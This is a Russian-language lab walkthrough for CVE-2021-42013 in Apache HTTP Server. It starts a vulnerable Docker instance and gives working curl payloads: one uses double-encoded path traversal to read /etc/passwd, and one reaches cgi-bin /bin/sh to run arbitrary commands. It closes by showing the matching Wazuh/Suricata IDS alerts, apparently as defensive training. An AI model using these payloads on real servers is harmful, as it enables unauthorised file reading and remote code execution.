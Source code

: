 # CVE-2021-42013

CVE-2021-42013 — это уязвимость, вызванная неполным исправлением [CVE-2021-41773](cve-2021-41773.md).&#x20;

### Эксплуатация уязвимости

Для запуска уязвимого Apache HTTP сервера выполните команды:

```
docker compose build
docker compose up -d
```

После запуска сервера по адресу [http://ваш-ip:8080](http://xn---ip-5cdj7k:8080/) будет доступна дефолтная страница с фразой "It works!

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Предыдущая полезная нагрузка CVE-2021-41773 `http://ваш-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd` была пропатчена, но не полностью.

Для реализации уязвимости нужно использовать `.%%32%65`

```
curl -v --path-as-is http://ваш-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

> обратите внимание, что /icons/ должен быть существующим каталогом

Результатом выполнения команды будет вывод содержимого файла /etc/passwd

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Если на сервере включены моды cgi или cgid, эта уязвимость обхода пути позволит выполнить произвольные команды:

curl -v --data "echo;id" 'http://ваш-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости, о выводе файла /etc/passwd в ответе на ваш запрос и о выполнении произвольных команд.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
